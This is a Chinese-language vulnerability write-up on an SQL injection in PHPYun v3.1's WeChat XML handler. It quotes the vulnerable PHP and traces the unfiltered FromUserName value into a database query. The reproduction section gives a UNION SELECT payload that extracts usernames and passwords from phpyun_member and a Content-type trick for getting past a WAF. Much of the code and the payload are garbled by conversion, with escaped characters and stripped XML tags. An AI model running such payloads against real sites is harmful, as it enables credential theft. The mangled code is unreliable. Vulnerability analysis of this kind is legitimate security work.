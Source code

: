 Phpyun v3.1 xml 注入漏洞
========================

一、漏洞简介
------------

函数过滤不严谨，用户POST过去的内容没有进行任何过滤，导致攻击者可以利用XML实体进行注入，从而获取数据库敏感信息

二、漏洞影响
------------

3.1 build14061

三、复现过程
------------

### 漏洞分析

本次漏洞文件位于 `weixin/model/index.class.php` ，代码如下：

private function responseMsg() { \$postStr =
\$GLOBALS\[\"HTTP\_RAW\_POST\_DATA\"\];

    if (!empty($postStr)){

                 $postObj = simplexml_load_string($postStr, 'SimpleXMLElement', LIBXML_NOCDATA);
                  $fromUsername = $postObj->FromUserName;
                  $toUsername = $postObj->ToUserName;
                  $keyword = trim($postObj->Content);
                  $time = time();
                  $textTpl = "<xml>
         <![CDATA[%s]]>
         <![CDATA[%s]]>
         %s
         <![CDATA[%s]]>
         <![CDATA[%s]]>
         0
         </xml>";
      if(!empty( $keyword ))
                  {
                  $msgType = "text";
                   $contentStr = "Welcome to wechat world!";
                   $resultStr = sprintf($textTpl, $fromUsername, $toUsername, $time, $msgType, $contentStr);
                   echo $resultStr;
                  }else{
                   echo "Input something...";
                  }

          }else {
           echo "";
           exit;
          }
      }

这里将\$postStr = \$GLOBALS\[\"HTTP\_RAW\_POST\_DATA\"\]，通过
simplexml\_load\_string解析后的内容，将其直接带入了\$textTpl。

然而\$postStr = \$GLOBALS\[\"HTTP\_RAW\_POST\_DATA\"\]
，直接获取了POST过来的XML内容，没有经过任何处理，并在最后将其输出。
if(\$MsgType==\'event\') { \$MsgEvent = \$postObj-\>Event; if
(\$MsgEvent==\'subscribe\') { \$centerStr =
\"\<!\[CDATA\[欢迎您关注\".iconv(\'gbk\',\'utf-8\',\$this-\>config\[\'sy\_webname\'\]).\"！/n
1：您可以直接回复关键字如【销售】、【南京 销售】、【南京 销售
XX公司】查找您想要的职位/n绑定您的账户体验更多精彩功能/n感谢您的关注！\]\]\>\";
\$this-\>MsgType = \'text\';

      }elseif ($MsgEvent=='CLICK')
      {
       $EventKey = $postObj->EventKey;
       if($EventKey=='我的帐号'){
        $centerStr = $this->bindUser($fromUsername);

       }elseif($EventKey=='我的消息')
       {
        $centerStr = $this->myMsg($fromUsername);
       }elseif($EventKey=='面试邀请')
       {
        $centerStr = $this->Audition($fromUsername);

       }elseif($EventKey=='简历查看')
       {

        $centerStr = $this->lookResume($fromUsername);

       }elseif($EventKey=='刷新简历')
       {

        $centerStr = $this->refResume($fromUsername);

从上述代码可以看出来，当满足那上面的条件后都会进入不同的相应的函数，但是都会进入一个名为`isBind`函数。

接下来追踪isBind函数：

private function isBind(\$wxid=\'\') {

    if($wxid)
    {
     $User = $this->obj->DB_select_once("member","`wxid`='".$wxid."'","`uid`,`username`");
    }
    if($User['uid']>0)
    {
     $User['bindtype'] = '1';
     $User['cenetrTpl'] = "<![CDATA[您的".iconv('gbk','utf-8',$this->config['sy_webname'])."帐号：".$User['username']."已成功绑定！ /n/n/n 您也可以config['sy_weburl']."/wap/index.php?m=login&wxid=".$wxid."/">点击这里进行解绑或绑定其他帐号]]>";

    }else{

     $Token = $this->getToken();
     $Url = 'https://api.weixin.qq.com/cgi-bin/user/info?access_token='.$Token.'&openid='.$wxid.'&lang=zh_CN';
     $CurlReturn  = $this->CurlPost($Url);
     $UserInfo    = json_decode($CurlReturn);

     $wxid        = $wxid;
     $wxname      = $UserInfo->nickname;
     $this->config['token_time'] = time();

     $User['cenetrTpl'] = '<![CDATA[您还没有绑定帐号，config['sy_weburl'].'/wap/index.php?m=login&wxid='.$wxid.'">点击这里进行绑定!]]>';
    }

    return $User;

    }

可以看到，从始至终wxid变量始终没有经过任何过滤，在第一行的`$wxid`就是我们传进来的FromUserName的值，可以直接进入SQL语句，进行任意注入。

因此我们可以针对其构造Payload，内容如下：

一般来说，我们只需要将Payload以POST形式的数据发出去，就可以成功的获取数据库敏感信息，但是服务器如果有WAF，提交的恶意数据必然会被拦截，因此，我们需要修改HTTP头，伪装成XML就可以不受到WAF的拦截：

    Content-type:text/xml;charset=utf-8

### 漏洞复现

我们首先打开目标站点，点击网页左侧注册按钮，首先注册一个账号：

![](resource/Phpyunv3.1xml注入漏洞/media/rId26.gif)

这个时候已经是登录状态，我们按`F9` 调出 `Hack Bar`
的界面，点击`Enable Post data` ，将Payload写入输入框，如下图所示：

![](resource/Phpyunv3.1xml注入漏洞/media/rId27.png)

#### payload文件:

##### 注:payload文件内容需手动输入相应位置

    <?xml version="1.0" encoding="utf-8"?>
      <xml>
        1111
        1111' and 1=2 union select 1,(select concat(username,password) from phpyun_member limit 0,1)#
        1402550611
        event
        CLICK
        我的账号
        0
      </xml>

接下来还需要修改HTTP头，伪装成XML，点击浏览器上方工具栏，打开`Tamper Data`
，点击启动。

![](resource/Phpyunv3.1xml注入漏洞/media/rId30.gif)

现在前提工作已经做好，接下来重新访问网站，Tamper Data
就会抓取到数据包，再对数据包进行更改，操作如图：

![](resource/Phpyunv3.1xml注入漏洞/media/rId31.gif)

然后点击确定就可以将构造好的数据包发出去：

![](resource/Phpyunv3.1xml注入漏洞/media/rId32.gif)

成功获取管理员账号密码。

参考链接
--------

> <https://blog.csdn.net/whatiwhere/article/details/84862236>
